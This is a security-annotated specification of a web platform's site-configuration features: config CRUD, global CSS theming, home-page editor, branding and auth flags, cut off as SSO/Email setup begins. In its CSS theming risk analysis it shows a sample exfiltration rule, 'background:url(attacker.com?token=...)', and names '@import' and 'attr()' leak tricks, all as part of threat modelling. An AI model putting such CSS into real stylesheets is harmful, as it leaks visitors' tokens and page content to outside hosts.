




# Cluster: Site Configuration & Theming

The configuration layer that drives the instance's branding, feature toggles, and behavior — what admins configure and what every visitor and API caller observes.

**Implementation:** `backend/src/routes/v2/system/site-management.route.js`, `backend/src/services/siteConfig.service.js`, `backend/src/models/siteConfig.model.js`, `backend/src/config/predefinedSiteConfigs.js`, `frontend/src/pages/SiteConfigManagement.tsx`.

---

## Capabilities in this cluster

| ID | Capability |
|----|------------|
| [CAP-CONFIG-01](#cap-config-01--site-config-crud) | Site config CRUD |
| [CAP-CONFIG-02](#cap-config-02--site-config-management-admin) | Site Config management (admin) |
| [CAP-CONFIG-03](#cap-config-03--global-css-theming) | Global CSS theming |
| [CAP-CONFIG-04](#cap-config-04--home-config-editor) | Home config editor |
| [CAP-CONFIG-05](#cap-config-05--branding) | Branding |
| [CAP-CONFIG-06](#cap-config-06--auth-config-flags) | Auth config flags |
| [CAP-CONFIG-07](#cap-config-07--sso--email-configuration) | SSO & Email configuration |
| [CAP-CONFIG-08](#cap-config-08--site-config-snapshots--restore) | Site config snapshots & restore |
| [CAP-CONFIG-09](#cap-config-09--privacy-policy) | Privacy policy |

## CAP-CONFIG-01 — Site config CRUD

| Actor | Where | Personal data | E2E coverage |
|---|---|---|---|
| admin | Admin → Site Config (`/admin/site-config`) | ❌ No | ⚠️ 2 cases, ≈15% (est.) |

### Description

As an admin, I can manage scoped site-config keys from the admin Site Config page so that every behavior, branding, and feature toggle of the instance is configurable in one place. As a user, I see only the non-secret configuration the admin has published. As an admin, my manually-set values are preserved when the instance restarts.

### Who uses it / value

Admins (configure the platform); end users (consume public config); the app (feature toggles/branding).

### Acceptance criteria

- When an **admin** creates, edits, or deletes a config key at **Admin → Site Config (`/admin/site-config`)**, the value persists and reappears on reload.
- When an **admin** upserts by key or bulk-edits multiple keys at **Admin → Site Config (`/admin/site-config`)**, the system saves all of them.
- When an **admin** marks a key as secret at **Admin → Site Config (`/admin/site-config`)**, its value is hidden from public/anonymous views and shown only to admins.
- When a **user** reads public config (no page), they see only non-secret values; SSO provider lists show enabled providers without their secrets.
- When an **admin** restarts the instance (operator action), the predefined defaults are seeded but their admin-set values are not overwritten.

### API contract

- `GET/POST /v2/site-config` → `200`/`201`; `GET /v2/site-config/all`; `POST /v2/site-config/by-keys`; `POST /v2/site-config/bulk-upsert`; `GET/PATCH/DELETE /v2/site-config/:id`; `/key/:key`; `/:scope/:target_id[/all]` → `200`/`201`/`204` as appropriate. Admin CRUD/scope/by-keys/bulk-upsert routes require authentication and `MANAGE_USERS`.
- `GET /v2/site-config/public[/:key|/:scope/:target_id[/:key]]` (anonymous) → only non-secret configs. `GET /v2/site-config/sso/providers` (anonymous) → enabled providers without `clientSecret`.
- Caller sends a valid scope enum (`site`/`user`/`model`/`prototype`/`api`), conditional `target_id`, a `valueType` enum (string/boolean/number/array/object/image_url/color/date), and a `secret` boolean; `value` accepts any shape.
- The `secret` flag excludes values from public reads; `SSO_PROVIDERS.clientSecret` and `EMAIL_CONFIG.apiKey`/`smtpConfig.pass` are encrypted at rest (AES-256-CBC) and decrypted only for admin display.
- Predefined configs are seeded on startup via `predefinedSiteConfigs.js` (`$setOnInsert`) and never overwrite admin-set values.

### Quality control

As an admin, set a key then re-read it (and the public read) to confirm the value persists and that `secret`-flagged values stay hidden from public reads; upsert by key and bulk-upsert to verify multi-key writes; restart the instance and confirm seeding does not overwrite admin-set values.

### Security

Public routes public; everything else requires `MANAGE_USERS`. `secret` configs are never exposed publicly.

**Coverage:**
- **Auth:** Anyone can read public config anonymously (`GET /v2/site-config/public*`, `GET /v2/site-config/sso/providers`); all other site-config routes require authentication and `MANAGE_USERS`.
- **Authorization:** `MANAGE_USERS` required for every admin CRUD, scope, by-keys, bulk-upsert, restore-snapshot, global-css, and email-test route; public reads have no permission check.
- **Input validation:** Caller must send a valid scope enum (`site`/`user`/`model`/`prototype`/`api`), conditional `target_id`, a `valueType` enum, and a `secret` boolean; the `value` field itself accepts any shape (no server-side schema check).
- **Rate limiting:** not applied.
- **Secrets:** The `secret` flag excludes values from public reads; `SSO_PROVIDERS.clientSecret` and `EMAIL_CONFIG.apiKey`/`smtpConfig.pass` are encrypted at rest (AES-256-CBC) and decrypted only for admin display.

**Risks:**
- **Config takeover:** a missing `MANAGE_USERS` check on admin endpoints would let any user flip security-critical flags (e.g. disable `PUBLIC_VIEWING` gating or enable `SELF_REGISTRATION`) and take over the instance's auth posture. *Mitigation:* writes require `MANAGE_USERS`; keep the permission middleware on every admin CRUD/scope/by-keys/bulk-upsert route and fails secure if config missing.
- **Secret leakage:** if the `secret` flag were honored only client-side or stripped from a single endpoint, secrets such as SSO `clientSecret` or email API keys could leak via a public read path. *Mitigation:* the system encrypts secret-flagged values at rest (AES-256-CBC) and strips them from all public reads server-side; keep the `secret` gate enforced on every read path.
- **Scope/target_id spoofing:** write endpoints keyed on `(key, scope, target_id)` could let an attacker write into another tenant's/model's scope if scope authorization is not enforced server-side. *Mitigation:* writes require `MANAGE_USERS`; enforce scope authorization server-side on `(key, scope, target_id)` and reject cross-scope writes.

### Personal data processing
❌ No — this capability does not process personal data. (config values only; `created_by`/`updated_by` hold admin user ObjectIds, refs not PII.)
N/A
**Risks:**
- none — no personal data processed.

### AutoWRX data
`secret` flag hides values from public reads; SSO provider secrets + email API keys **encrypted at rest**, decrypted only for admin display.
**Coverage:**
- **Stored data:** `site_configs` collection (fields: `key`, `scope`, `target_id`, `value` (Mixed), `valueType`, `secret`, `description`, `category`, `created_by`, `updated_by`); `SiteConfigSnapshot` mirrors site-scope configs for restore; unique index on `(key, scope, target_id)`.
- **Retention:** indefinite — no TTL; deletes are hard deletes.
- **Encryption:** AES-256-CBC at rest for secret-flagged `SSO_PROVIDERS.clientSecret` and `EMAIL_CONFIG.apiKey`/`smtpConfig.pass`; non-secret values stored plaintext.
- **Logging:** none / N/A — no config values logged on the success path.
**Risks:**
- **Plaintext-at-rest fallback:** if encryption were bypassed or a new secret type were added without wiring it through `utils/encryption.js`, secrets would sit in plaintext and a DB dump would expose live credentials.
- **Admin-display interception:** secrets are decrypted for admin display, so a compromised admin session or logged response body leaks usable SSO/email credentials directly.

### Test coverage
- **E2E (Playwright):** 2 test case(s) in `site-config-restore-default.spec.ts` — SITEMAP: ⚠️ (public config write+read asserted as scaffolding for restore-default; admin CRUD endpoint matrix, by-keys, bulk-upsert, scoped reads, and secret handling not exercised)
- **Estimated coverage:** ≈15% (est.) — 2 E2E cases assert public config write+read as restore-default scaffolding; admin CRUD matrix, by-keys, bulk-upsert, scoped reads, and secret handling untested (~4 acceptance paths).
- **Unit (Jest):** none

## CAP-CONFIG-02 — Site Config management (admin)

| Actor | Where | Personal data | E2E coverage |
|---|---|---|---|
| admin | Admin → Site Config (`/admin/site-config`) | ❌ No | ⚠️ 8 cases, ≈25% (est.) |

### Description

As an admin, I can manage the instance's configuration from a single admin page organized into 11 sections (Public, Home, Site Style, Auth, Model & Prototype, GenAI/ProtoPilot, SSO, Email, Secret, Standard Staging, Privacy), each with edit history I can restore, so all site configuration is centralized in one place. As a user, I see the branding, home layout, styling, and privacy policy the admin has published.

### Who uses it / value

Admins (central configuration); end users (see published branding/home/style/privacy).

### Acceptance criteria

- When an **admin** opens the Site Config admin page at **Admin → Site Config (`/admin/site-config`)**, they see the 11 section tabs in the sidebar; when they select a tab, the corresponding section loads.
- When an **admin** edits keys in a section and saves at **Admin → Site Config (`/admin/site-config`)**, the system persists them and they apply site-wide.
- When an **admin** opens a section's edit history and restores a prior entry at **Admin → Site Config (`/admin/site-config`)**, the section reverts to that snapshot.
- When an **admin** opens a secret-bearing section at **Admin → Site Config (`/admin/site-config`)**, secret values are masked and only revealed for admin display.

### API contract

- Admin site-config routes backing the 11 sections (Public, Home, Site Style, Auth, Model & Prototype, GenAI/ProtoPilot, SSO, Email, Secret, Standard Staging, Privacy) all require authentication and `MANAGE_USERS` — single shared gate.
- Write endpoints are schema-validated, but `value` accepts any shape (section-specific shapes like home blocks / SSO providers / email config are not validated server-side); global-css `PUT` requires `content` to be a string; `/email/test` requires `to` to be present (controller-level checks only).
- Secret sections mask values in the UI; SSO `clientSecret` and EMAIL `apiKey`/`smtpConfig.pass` are encrypted at rest (AES-256-CBC) and decrypted only for admin display within the Secret/SSO/Email sections.
- Edit history is captured in `SiteConfigSnapshot` (deploy snapshot) plus per-section `SiteConfigEditHistory` entries; restore re-checks `MANAGE_USERS` at restore time.

### Quality control

As an admin, edit a config in a section, then verify the value persists and applies site-wide; restore from history and verify the section reverts.

### Security

`MANAGE_USERS` for all sections.

**Coverage:**
- **Auth:** required for all admin site-config routes used by the 11 sections.
- **Authorization:** `MANAGE_USERS` — single shared gate for all sections (Public, Home, Site Style, Auth, Model & Prototype, GenAI/ProtoPilot, SSO, Email, Secret, Standard Staging, Privacy).
- **Input validation:** write endpoints are schema-validated, but `value` accepts any shape (section-specific shapes like home blocks / SSO providers / email config are not validated server-side); global-css `PUT` requires `content` to be a string and `/email/test` requires `to` to be present (controller-level checks only).
- **Rate limiting:** not applied.
- **Secrets:** secret sections mask values in the UI; SSO `clientSecret` and EMAIL `apiKey`/`smtpConfig.pass` are encrypted at rest and decrypted only for admin display within the Secret/SSO/Email sections.

**Risks:**
- **Single-gate blast radius:** every section sits behind the same `MANAGE_USERS` permission, so one compromised admin (or one overly-broad grant) can rewrite auth, SSO, email, and feature flags simultaneously. *Mitigation:* writes require `MANAGE_USERS`; none currently — consider splitting the shared gate into per-section permissions for Auth/SSO/Email/Secret and require step-up auth for secret-bearing sections.
- **History restore abuse:** if restore-from-history lacked re-authorization, an attacker who once held `MANAGE_USERS` could replay an old config (e.g. re-enabling disabled SSO) after their access was revoked. *Mitigation:* writes require `MANAGE_USERS`; re-check the permission at restore time (not at snapshot creation) and audit who restored which snapshot.

### Personal data processing
❌ No — this capability does not process personal data. (administrative configuration only; `created_by`/`updated_by` are admin user refs, not PII.)
N/A
**Risks:**
- none — no personal data processed.

### AutoWRX data
Edit history (snapshots) retained; secret sections mask values.
**Coverage:**
- **Stored data:** `site_configs` (live config) + `SiteConfigSnapshot` (edit history / deploy snapshot) — site-scope configs including encrypted secret values in SSO/Email/Secret sections; admin user ids in `created_by`/`updated_by`.
- **Retention:** indefinite — snapshots retained until overwritten by a new deploy-seed sync or manual restore; no TTL on live configs.
- **Encryption:** secrets stored encrypted (AES-256-CBC) in both live config and snapshots; non-secret config plaintext.
- **Logging:** none / N/A — no section edits or secret values logged.
**Risks:**
- **Snapshot retention of secrets:** edit history snapshots may retain prior secret values; if those snapshots aren't masked/encrypted like the live config, old credentials remain recoverable.
- **Change history leak:** config edit history can reveal administrative actions, SSO provider changes, and email setup patterns to anyone with admin access.

### Test coverage
- **E2E (Playwright):** 8 test case(s) in `admin.spec.ts` (1 — site-config page loads) + `nav-bar-actions.spec.ts` (7 — navbar-actions section editor within site-config) — SITEMAP: ⚠️ (page load + nav section covered; 10 of 11 sections incl. Auth/SSO/Email/Secret/Privacy untested)
- **Estimated coverage:** ≈25% (est.) — 8 E2E cases cover page load + nav section editor; 10 of 11 sections (Auth/SSO/Email/Secret/Privacy) untested across ~11 acceptance paths.
- **Unit (Jest):** none

## CAP-CONFIG-03 — Global CSS theming

| Actor | Where | Personal data | E2E coverage |
|---|---|---|---|
| admin | Admin → CSS (`/admin/site-config`) | ❌ No | ❌ 0 cases, ≈0% (est.) |

### Description

As an admin, I can edit and restore the platform's global stylesheet from the Site Style (CSS) section so the entire instance is themed consistently. As a user or plugin author, I get a stable themed UI and CSS variables to consume.

### Who uses it / value

Admins (brand the site); end users (themed UI); plugins (consume CSS variables).

### Acceptance criteria

- When an **admin** opens the Site Style (CSS) section at **Admin → CSS (`/admin/site-config`)**, they see the current stylesheet in an editor with a live color preview of the `:root` tokens.
- When an **admin** edits the CSS and saves at **Admin → CSS (`/admin/site-config`)**, the new stylesheet applies across the UI; when a **user** loads any public page (any URL), the themed stylesheet is served publicly with no sign-in.
- When an **admin** chooses to restore the default at **Admin → CSS (`/admin/site-config`)**, the shipped styling returns.

### API contract

- `GET /static/global.css` (anonymous) → serves the stylesheet publicly with no auth.
- `GET /v2/site-config/global-css` (auth + `MANAGE_USERS`) → `200` with the current stylesheet.
- `PUT /v2/site-config/global-css` (auth + `MANAGE_USERS`) → `200` and applies the new CSS; `content` must be a string (the system returns `400` otherwise); no sanitization or allowlist of CSS rules (`@import`, `url()`, `attr()` permitted).
- `POST /v2/site-config/global-css/restore-default` (auth + `MANAGE_USERS`) → restores the shipped default (`static/global_org.css`).

### Quality control

As an admin, edit `:root` tokens (e.g. `--primary`) and observe the UI re-theme live; call `POST /v2/site-config/global-css/restore-default` and confirm the shipped styling returns.

### Security

All three `/v2/site-config/global-css` endpoints require auth + `MANAGE_USERS`; the stylesheet itself is public at `/static/global.css`. CSS can contain selectors only (no script); instance overrides use `!important` guidance.

**Coverage:**
- **Auth:** required for `GET /global-css`, `PUT /global-css`, and `POST /global-css/restore-default`; the stylesheet at `/static/global.css` is served publicly (anonymous).
- **Authorization:** `MANAGE_USERS` on all three admin endpoints.
- **Input validation:** `content` must be a string (the system returns `400` otherwise); no sanitization or allowlist of CSS rules (`@import`, `url()`, `attr()` permitted).
- **Rate limiting:** not applied.
- **Secrets:** none — stylesheet text only; no credentials involved.

**Risks:**
- **CSS-based exfiltration:** even without `<script>`, an attacker who can write the stylesheet can craft `background:url(attacker.com?token=...)`-style rules to exfiltrate page content and tokens, or use `@import` to pull remote stylesheets. *Mitigation:* none currently — sanitize admin-supplied CSS/markdown (strip `url()`/`@import` to external hosts) and apply a CSP on `/static/global.css`.
- **Unauthenticated styling takeover:** if `PUT` lacked the `MANAGE_USERS` check, anyone could restyle the site (defacement) or mount phishing-by-styling (hiding warnings, recoloring buttons to lure clicks). *Mitigation:* writes require `MANAGE_USERS`; keep the auth middleware on `PUT`/`POST /global-css/restore-default` and fails secure if config missing.
- **DOM-based attacks via selectors:** hostile selectors combined with `attr()`/content tricks can extract attributes from rendered DOM and leak them via image requests. *Mitigation:* none currently — sanitize admin-supplied CSS/markdown (disallow `attr()`/content tricks that read DOM attributes).

### Personal data processing
❌ No — this capability does not process personal data. (stylesheet text only; no user PII stored.)
N/A
**Risks:**
- none — no personal data processed.

### AutoWRX data
Stylesheet text only; no PII.
**Coverage:**
- **Stored data:** `static/global.css` file on disk (not in `site_configs`); `static/global_org.css` holds the shipped default copied over on restore.
- **Retention:** indefinite — file persists on disk until overwritten by `PUT` or `restore-default`; no versioning.
- **Encryption:** none — plaintext CSS file on the backend filesystem.
- **Logging:** none / N/A — no logging of CSS content.
**Risks:**
- **Indirect PII leak:** if CSS can target elements that render user data (e.g. names in attribute values), attribute-value exfiltration could disclose PII to an attacker-controlled endpoint.

### Test coverage
- **E2E (Playwright):** 0 — not covered — SITEMAP: ❌ (no spec exercises `GET/PUT /global-css`, `/global-css/restore-default`, or `/static/global.css` theming)
- **Estimated coverage:** ≈0% (est.) — no E2E spec.
- **Unit (Jest):** none

## CAP-CONFIG-04 — Home config editor

| Actor | Where | Personal data | E2E coverage |
|---|---|---|---|
| admin | Admin → Home config (`/admin/site-config`) | ❌ No | ❌ 0 cases, ≈0% (est.) |

### Description

As an admin, I can compose the landing page from drag-and-drop blocks (hero, feature-list, button-list, news, recent, popular, partner-list, home-footer) with raw JSON, preview, and history, so the home page presents the content my organization wants visitors to see first. As a visitor, I see the composed landing page render the blocks the admin published.

### Who uses it / value

Admins (compose the landing page); visitors (see the curated landing page).

### Acceptance criteria

- When an **admin** opens the Home Config section at **Admin → Home config (`/admin/site-config`)**, they can switch between Edit, Raw JSON, Preview, and History sub-tabs.
- When an **admin** adds, reorders (drag-and-drop), or edits blocks and saves at **Admin → Home config (`/admin/site-config`)**, the system persists the block list.
- When an **admin** uses Preview at **Admin → Home config (`/admin/site-config`)**, they see the rendered landing layout without leaving the admin page; when they use Raw JSON, they can edit the block list directly.
- When a **user** opens the Home page (`/`), the system renders the published blocks and skips any unknown block types.

### API contract

- Editing `CFG_HOME_CONTENT` requires authentication and `MANAGE_USERS`; public reads of the non-secret config are anonymous (`GET /v2/site-config/public*`).
- `CFG_HOME_CONTENT` is a non-secret public config value (scope `site`, `secret: false`); the block array shape is not validated server-side (`value` accepts any shape); `image_url` fields are not URL-validated.
- Edit-history snapshots are stored in `SiteConfigSnapshot`; render uses the `homeComponentMap` on `PageHome`.

### Quality control

As an admin, add and reorder blocks, then open the home page to confirm the layout reflects the changes; use preview to check the layout and raw JSON to edit directly.

### Security

Admin only.

**Coverage:**
- **Auth:** required to edit `CFG_HOME_CONTENT`; public reads of the non-secret config are anonymous.
- **Authorization:** `MANAGE_USERS` for edits; public read has no permission check.
- **Input validation:** the block array shape is not validated server-side (`value` accepts any shape); `image_url` fields are not URL-validated.
- **Rate limiting:** not applied.
- **Secrets:** none — `CFG_HOME_CONTENT` is non-secret public content.

**Risks:**
- **Stored XSS via block content:** if block titles/descriptions/image URLs are rendered without sanitization, an admin (or a compromised admin account) could inject markup/scripts into every visitor's landing page. *Mitigation:* none currently — sanitize admin-supplied CSS/markdown (block titles/descriptions/image URLs) before render.
- **Malicious image URL redirect:** `image_url` fields, if not validated, could point to attacker-controlled hosts used for tracking or to serve malicious payloads. *Mitigation:* none currently — validate `image_url` fields against a protocol/hostname allowlist server-side.

### Personal data processing
❌ No — this capability does not process personal data. (marketing/landing content; admin-entered free text could in principle include names but no user PII is system-stored here.)
N/A
**Risks:**
- none — no personal data processed.

### AutoWRX data
Block content (titles/descriptions/image URLs); `requiredLogin` flags on action buttons.
**Coverage:**
- **Stored data:** `CFG_HOME_CONTENT` value (array of block objects: hero, feature-list, button-list, news, recent, popular, partner-list, home-footer) in `site_configs` (scope `site`, non-secret); edit-history snapshots in `SiteConfigSnapshot`.
- **Retention:** indefinite — config value persists until edited/restored; snapshots per sync cycle.
- **Encryption:** none — plaintext public config value.
- **Logging:** none / N/A — no logging of block content.
**Risks:**
- **Login-flow confusion:** a `requiredLogin` flag on action buttons drives auth gating; if misconfigured or tampered with, buttons could route users to attacker-controlled auth flows (credential phishing) from the public landing page.

### Test coverage
- **E2E (Playwright):** 0 — not covered — SITEMAP: ❌ (`home-sections.spec.ts` renders home blocks but does not exercise the `CFG_HOME_CONTENT` admin editor, raw JSON, preview, or history)
- **Estimated coverage:** ≈0% (est.) — no E2E spec.
- **Unit (Jest):** none

## CAP-CONFIG-05 — Branding

| Actor | Where | Personal data | E2E coverage |
|---|---|---|---|
| admin | Admin → Branding (`/admin/site-config`) | ❌ No | ⚠️ 7 cases, ≈30% (est.) |

### Description

As an admin, I can set the platform's title, logo, favicon, theme color, and description from the Public Config section so the instance carries my organization's brand identity consistently across the UI and browser tab. As a user, I see the configured branding in the nav bar, browser tab, and dashboard.

### Who uses it / value

Admins (brand identity); end users (consistent branding).

### Acceptance criteria

- When an **admin** sets the site title, logo, favicon, theme color, or description and saves at **Admin → Branding (`/admin/site-config`)**, the system reflects them in the nav bar, root layout, browser tab, and dashboard logo.
- When a **user** reads public config (no page), the system returns these non-secret branding keys.

### API contract

- Branding keys: `SITE_TITLE`, `SITE_LOGO_WIDE`, `SITE_FAVICON`, `SITE_THEME_COLOR`, `SITE_DESCRIPTION` (scope `site`, `secret: false`).
- Public read is anonymous via `GET /v2/site-config/public*` (returns non-secret branding keys); admin write requires authentication and `MANAGE_USERS`.
- Branding values accept any shape; `SITE_LOGO_WIDE`/`SITE_FAVICON` URLs are stored as-is and not enforced as image URLs server-side.

### Quality control

As an admin, set `SITE_TITLE` and confirm the nav title and browser title update; set `SITE_LOGO_WIDE` and confirm it renders.

### Security

Public read; admin write.

**Coverage:**
- **Auth:** public read is anonymous (`GET /v2/site-config/public*` returns non-secret branding keys); admin write requires authentication and `MANAGE_USERS`.
- **Authorization:** `MANAGE_USERS` for writes; public reads have no permission check.
- **Input validation:** branding values accept any shape; `SITE_LOGO_WIDE`/`SITE_FAVICON` URLs are stored as-is and not enforced as image URLs server-side.
- **Rate limiting:** not applied.
- **Secrets:** none — branding values are public.

**Risks:**
- **Brand spoofing via logo URL:** `SITE_LOGO_WIDE`/`SITE_FAVICON` are URLs; if an admin (or anyone with write access) sets them to an external host, the site loads third-party assets, enabling tracking or phishing via a swapped logo. *Mitigation:* none currently — validate `SITE_LOGO_WIDE`/`SITE_FAVICON` against a protocol/hostname allowlist server-side and restrict to known hosts.
- **Phishing via title/description:** a malicious `SITE_TITLE`/`SITE_DESCRIPTION` could impersonate another brand on the public site and browser tab, aiding credential phishing. *Mitigation:* writes require `MANAGE_USERS`; none currently — add an admin review workflow for `SITE_TITLE`/`SITE_DESCRIPTION` before publish.

### Personal data processing
❌ No — this capability does not process personal data. (branding text/asset URLs only.)
N/A
**Risks:**
- none — no personal data processed.

### AutoWRX data
Branding asset URLs only.
**Coverage:**
- **Stored data:** `SITE_TITLE`, `SITE_LOGO_WIDE`, `SITE_FAVICON`, `SITE_THEME_COLOR`, `SITE_DESCRIPTION` values in `site_configs` (scope `site`, `secret: false`).
- **Retention:** indefinite — public config values persist until edited/restored.
- **Encryption:** none — plaintext public config.
- **Logging:** none / N/A — branding values exposed via public read by design.
**Risks:**
- **Asset-URL leakage:** branding URLs can reveal internal hosting paths or third-party providers in the public config response.

### Test coverage
- **E2E (Playwright):** 7 test case(s) in `nav-bar-actions.spec.ts` — SITEMAP: ⚠️ (NAV_BAR_ACTIONS editor + navbar rendering covered; `SITE_TITLE`/`SITE_LOGO_WIDE`/`SITE_FAVICON`/`SITE_THEME_COLOR`/`SITE_DESCRIPTION` not directly tested)
- **Estimated coverage:** ≈30% (est.) — 7 E2E cases cover NAV_BAR_ACTIONS editor + navbar rendering; the 5 branding keys (`SITE_TITLE`/`SITE_LOGO_WIDE`/`SITE_FAVICON`/`SITE_THEME_COLOR`/`SITE_DESCRIPTION`) not directly tested.
- **Unit (Jest):** none

## CAP-CONFIG-06 — Auth config flags

| Actor | Where | Personal data | E2E coverage |
|---|---|---|---|
| admin | Admin → Auth (`/admin/site-config`) | ❌ No | ❌ 0 cases, ≈0% (est.) |

### Description

As an admin, I can toggle the platform's access flags from the Auth Config section so I control who can browse, sign up, auto-register via SSO, and manage passwords. As a user, the sign-in and registration options I see reflect these toggles; if config loading fails on a request, the system secure-fails to denying access.

### Who uses it / value

Admins (control access/registration); end users (see gated sign-in/registration); the app (gating).

### Acceptance criteria

- When an **admin** opens the Auth Config section at **Admin → Auth (`/admin/site-config`)**, they see the four access toggles (browse, self-registration, SSO auto-registration, password management), all on by default.
- When an **admin** turns a toggle off at **Admin → Auth (`/admin/site-config`)**, the system applies the change to auth behavior across the app (see [identity-access.md](./identity-access.md)) — e.g. signed-out users cannot browse when browsing is off, and registration is refused when self-registration is off.
- When an **admin** restores defaults at **Admin → Auth (`/admin/site-config`)**, the toggles return to their shipped on defaults.
- When config loading fails on a request (global middleware, no page), the system secure-fails to all toggles off (denying access).

### API contract

- Flags: `PUBLIC_VIEWING`, `SELF_REGISTRATION`, `SSO_AUTO_REGISTRATION`, `PASSWORD_MANAGEMENT` (scope `site`, `secret: false`, `valueType: 'boolean'`, `category: 'auth'`, all default `true`).
- Effective flags are publicly observable via `GET /v2/site-config/public*` (anonymous); changing them requires authentication and `MANAGE_USERS`.
- Flags are coerced to boolean; cached in memory for up to 5 min and loaded per request; on config-load error the system secure-fails to all-false.

### Quality control

As an admin, toggle `PUBLIC_VIEWING` off and confirm signed-out users cannot browse; toggle `SELF_REGISTRATION` off and confirm registration returns `403`.

### Security

Public (effective flags observable); admin to change; safe-default all-false on error.

**Coverage:**
- **Auth:** effective flags are publicly observable via `GET /v2/site-config/public*`; changing them requires authentication and `MANAGE_USERS`; the flags are loaded on every request.
- **Authorization:** `MANAGE_USERS` to change flag values; public reads have no permission check.
- **Input validation:** flags are `valueType: 'boolean'`, `secret: false`; the system coerces values to boolean.
- **Rate limiting:** not applied.
- **Secrets:** none — boolean flags only.

**Risks:**
- **Flag tampering to bypass auth:** if the admin write check on these flags were weak, an attacker could flip `PUBLIC_VIEWING=true` or `SELF_REGISTRATION=true` to weaken access controls or open anonymous registration. *Mitigation:* writes require `MANAGE_USERS`; fails secure if config missing (all-false fallback); keep the permission middleware on the flag-write route.
- **Fail-open on load error:** the design secure-fails to all-false; if that fallback regressed to fail-open, a config-load error would silently expose the site to anonymous users. *Mitigation:* the system secure-fails to all-false on config-load error; keep the fail-closed fallback and add a regression test for the error path.
- **Observability leak:** effective flags are publicly observable, which can help attackers probe which auth paths are enabled (e.g. whether self-registration is open). *Mitigation:* none currently — flags are public by design for client gating; document as an accepted trade-off.

### Personal data processing
❌ No — this capability does not process personal data. (boolean flags only.)
N/A
**Risks:**
- none — no personal data processed.

### AutoWRX data
Boolean flags only.
**Coverage:**
- **Stored data:** `PUBLIC_VIEWING`, `SELF_REGISTRATION`, `SSO_AUTO_REGISTRATION`, `PASSWORD_MANAGEMENT` boolean values in `site_configs` (scope `site`, `secret: false`, `category: 'auth'`); cached in memory for up to 5 min and loaded per request.
- **Retention:** indefinite — config flags persist until changed/restored; cache evicted after 5 min.
- **Encryption:** none — plaintext booleans (non-secret by design).
- **Logging:** none / N/A — no flag values logged on the success path.
**Risks:**
- **Inference of attack surface:** while flags are booleans only, exposing which gates are enabled tells an attacker exactly which registration/SSO avenues to target.

### Test coverage
- **E2E (Playwright):** 0 — not covered — SITEMAP: ❌ (`admin-features.spec.ts` tests feature role assignment, not auth config flag toggling; no spec exercises `PUBLIC_VIEWING`/`SELF_REGISTRATION`/`SSO_AUTO_REGISTRATION`/`PASSWORD_MANAGEMENT` gating)
- **Estimated coverage:** ≈0% (est.) — no E2E spec.
- **Unit (Jest):** none

## CAP-CONFIG-07 — SSO & Email configuration

| Actor | Where | Personal data | E2E coverage |
|---|---|---|---|
| admin | Admin → SSO/Email (`/admin/site-config`) | ✅ Yes — test-email recipient address | ❌ 0 cases, ≈0% (est.) |

### Description

As an admin/DevOps, I can configure SSO providers and email delivery (Resend/SMTP/none) and send a test email from the SSO and Email sections, so users can sign in via SSO and the platform can send mail. As an end user, I see only the enabled SSO sign-in buttons (no secrets).

### Who uses it / value

